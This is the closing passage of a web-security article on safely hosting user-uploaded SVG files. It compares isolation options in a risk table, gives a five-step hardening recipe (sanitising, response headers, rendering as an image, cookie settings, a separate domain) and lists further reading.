And if you delete a bucket but leave its DNS record behind, someone else can claim that name and serve content from your domain. Remove the record first.

## Which approach should you use?

These layers stack, so you’re rarely picking just one. Here’s what each adds if an attacker gets a malicious file past you:

| Risk                                    | Image tag with headers   | Separate origin               | Separate domain          |
| --------------------------------------- | ------------------------ | ----------------------------- | ------------------------ |
| Script runs on your app’s origin        | Blocked                  | Blocked                       | Blocked                  |
| Forged requests with `SameSite` cookies | No script runs           | Possible                      | Blocked                  |
| Cookies planted on your domain          | No script runs           | Possible                      | Blocked                  |
| One user’s file reads another’s         | No script runs           | Blocked by CSP `sandbox`      | Blocked by CSP `sandbox` |
| Phishing under your real domain         | Only through the picture | Possible                      | Less convincing          |
| Freezing the viewer’s page              | Possible                 | Possible in a same-site frame | Limited to the frame     |

And here’s how to choose:



For most apps, this is the whole recipe:

1. Run every upload through `cleanSvg` on a worker thread with a time limit, and store only the output.
2. Serve it with the four headers, and confirm them with `curl -I`.
3. Render it with ``, or convert it to PNG if you don’t need a vector.
4. Use `__Host-` cookies and reject writes that aren’t same-origin, so a slip elsewhere doesn’t become an account takeover.
5. Move to a separate domain once files need to run scripts or you’re hosting content for many customers.

An SVG is a small web page with an image’s file extension. Once you treat it that way, most of these decisions make themselves.

## Further reading

- [Securely hosting user data in modern web applications](https://web.dev/articles/securely-hosting-user-data), from Google
- [SVG Integration](https://www.w3.org/TR/svg-integration/), the W3C spec for how SVG behaves in each context
- [Process model and site isolation](https://chromium.googlesource.com/chromium/src/+/main/docs/process_model_and_site_isolation.md), from the Chromium docs
- [CSP `sandbox`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Content-Security-Policy/sandbox), on MDN
- [DOMPurify](https://github.com/cure53/DOMPurify), including its notes on running on the server
